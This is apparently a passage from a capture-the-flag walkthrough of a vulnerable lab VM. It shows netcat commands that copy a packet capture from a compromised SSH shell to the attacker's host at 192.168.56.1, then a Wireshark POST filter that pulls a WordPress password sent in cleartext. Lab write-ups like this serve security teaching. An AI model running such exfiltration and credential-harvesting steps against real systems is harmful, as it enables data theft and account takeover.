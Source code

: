`ls /ftp/files/network-logs`

In that folder is a file named `derpissues.txt`. Let's take a peek.

`cat ftp/files/network-logs/derpissues.txt`

<br>
![A36](https://i.imgur.com/QI6Einw.png)
<br>


If Mr. Derp set up a Wordpress user account while the network was being sniffed, then there will be a packet containing the password to his account.

We can use the same `nc` process we used to transfer the ssh key to transfer `derpissues.pcap` to our local machine. From there, we can open it up in `wireshark` hunt down those credentials.

`cd Documents`<br>
`ls`

Enable the listener on your local machine:

`nc -lnvp 53000 > derpissues.pcap`


Start the transfer from the `stinky` ssh shell:

`nc 192.168.56.1 53000 < derpissues.pcap`

Upon arrival, open it on your local machine using `wireshark`:

`wireshark derpissues.pcap`

<br>
![A37](https://i.imgur.com/HPpYmEF.png)
<br>

A lot of info was captured in this file, but we only care about Mr. Derp's interaction with the Wordpress site over `http`. Even more specifically, we only care about information Mr. Derp sent to the server via POST request.

With the right filter, Wireshark will only show us these requests.

`http.request.method == "POST"`

There weren't very many sent, so we can simply browse the *Info* column for something interesting.

<br>
![A38](https://i.imgur.com/9QXYrV5.png)
<br>

`user-new.php` sounds like the page Mr. Derp would send a request to in order to create his account. This would be where he'd enter in his password.

Select the HTML Form URL encoded part of the packet, and look at the values. There, in the clear, is Mr. Derp's rather unsurprising password. Unfortunately, it was not `funnybone`.


<br>
![A41](https://i.imgur.com/yYMh0Tu.png)
<br>

